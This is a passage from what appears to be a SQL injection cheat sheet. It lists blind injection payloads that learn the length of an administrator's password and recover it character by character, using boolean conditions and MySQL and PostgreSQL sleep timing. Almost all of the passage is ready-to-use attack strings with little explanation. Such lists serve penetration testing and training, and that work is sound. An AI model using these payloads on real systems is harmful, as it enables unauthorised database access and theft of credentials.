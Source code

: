 ```txt
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a
...
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=8)='a
```

Brute force password's character

```txt
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='$a$
' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='$a$
...
' AND (SELECT SUBSTRING(password,8,1) FROM users WHERE username='administrator')='$a$
```

<br />

## Blind SQL (Time-based)

### 1. First Check

- **MySQL**

    ```html
    ' AND sleep(5)-- -
    ```

- **PostgreSQL**

    ```html
    '||pg_sleep(10)--
    '; SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
    '; SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--
    
    <!--- https://hackerone.com/reports/2209130 -->
    ');(SELECT 1234 FROM PG_SLEEP(10))--
    ```

### 2. Check if Content Value Exists

```txt
'; SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

If so, determine the password length

```txt
'; SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
'; SELECT CASE WHEN (username='administrator' AND LENGTH(password)>2) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
...
'; SELECT CASE WHEN (username='administrator' AND LENGTH(password)=8) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```
